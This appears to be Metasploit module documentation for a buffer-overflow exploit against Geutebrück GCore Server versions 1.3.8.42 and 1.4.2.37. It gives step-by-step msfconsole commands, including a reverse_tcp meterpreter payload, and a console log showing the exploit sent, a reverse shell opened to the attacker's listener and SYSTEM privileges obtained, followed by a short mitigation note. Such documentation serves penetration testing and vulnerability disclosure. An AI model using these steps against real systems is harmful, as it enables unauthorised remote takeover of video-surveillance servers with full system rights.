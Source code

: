 ## Vulnerable Application

  Geutebrück GCore Server 1.3.8.42, 1.4.2.37 are vulnerable to a buffer overflow exploitation.
  Since this application is started with system privileges this allows a system remote code execution.

## Verification Steps

  1. Install Windows as basic OS (Tested with Win2012R2, Windows 7)
  2. Install the Geutebrück GCore server
  3. Verify that http://<your target ip>:13003/statistics/runningmoduleslist.xml available is.
  4. Start msfconsole
  5. Do: ```use [exploit/windows/http/geutebrueck_gcore_x64_rce_bo]```
  6. Do: ```set rhost <your target ip>```
  7. Do: ```set rport 13003```
  8. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
  9. Do: ```exploit```
  10. You should get a shell as NT/SYSTEM.

## Scenarios

### Geutebrueck GCore 1.4.2.37

```
msf exploit(geutebrueck_gcore_x64_rce_bo) > show options

Module options (exploit/windows/http/geutebrueck_gcore_x64_rce_bo):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.1.10      yes       The target address
   RPORT    13003             yes       The target port



   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.11     yes       The listen address
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting

msf exploit(geutebrueck_gcore_x64_rce_bo) > exploit
    [*] Started reverse TCP handler on 192.168.1.11:4444
    [*] 192.168.1.10:13003 - Trying to fingerprint server with http://192.168.1.10:13003/statistics/runningmoduleslist.xml...
    [*] 192.168.1.10:13003 - Vulnerable version detected: GCore 1.4.2.37, Windows x64 (Win7, Win8/8.1, Win2012R2,...)
    [*] 192.168.1.10:13003 - Preparing ROP chain for target 1.4.2.37!
    [*] 192.168.1.10:13003 - Crafting Exploit...
    [*] 192.168.1.10:13003 - Exploit ready for sending...
    [*] 192.168.1.10:13003 - Exploit sent! [*] Sending stage (1188415 bytes) to
    [*] Meterpreter session 1 opened ( :4444 -> 49963) at 2017-11-03 13:14:51 +0200
    [*] 192.168.1.10:13003 - Closing socket.
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid Server username:
    NT-AUTORITÄT\SYSTEM
    meterpreter >
```

## Mitigation

Geutebrück released a new version and an update for the affected product which should be installed to fix the described vulnerabilities.
